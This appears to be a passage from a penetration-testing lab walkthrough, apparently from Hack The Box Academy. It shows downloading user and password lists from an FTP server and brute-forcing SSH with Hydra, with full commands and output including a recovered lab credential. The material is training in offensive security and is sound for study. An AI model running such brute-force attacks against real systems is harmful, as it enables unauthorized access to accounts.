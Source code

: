 When using the `dir` subcommand, students will find two files that they need to download to Pwnbox/`PMVPN`, prior to that, students can turn off interactive mode by issuing the `prompt` subcommand:

Code: shell

```shell
dir
prompt
mget *
```

```
ftp> dir

227 Entering Passive Mode (10,129,146,230,131,27).
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19 21:30 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19 18:54 users.list
226 Transfer complete

ftp> prompt

Interactive mode off.

ftp> mget *

local: passwords.list remote: passwords.list
227 Entering Passive Mode (10,129,146,230,138,143).
150 Opening BINARY mode data connection for passwords.list (1959 bytes)
226 Transfer complete
1959 bytes received in 0.05 secs (36.2114 kB/s)
local: users.list remote: users.list
227 Entering Passive Mode (10,129,146,230,170,123).
150 Opening BINARY mode data connection for users.list (72 bytes)
226 Transfer complete
72 bytes received in 0.01 secs (10.7479 kB/s)
```

Students at last need to use `Hydra` to bruteforce a valid username and password for the SSH service:

Code: shell

```shell
hydra -t 45 -L users.list -P passwords.list ssh://STMIP -q
```

```
┌─[us-academy-1]─[10.10.14.28]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ hydra -t 45 -L users.list -P passwords.list ssh://10.129.136.189 -q

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 45 tasks per 1 server, overall 45 tasks, 2750 login tries (l:11/p:250), ~62 tries per task
[DATA] attacking ssh://10.129.136.189:22/
[22][ssh] host: 10.129.136.189   login: robin   password: 7iz4rnckjsduza7
```
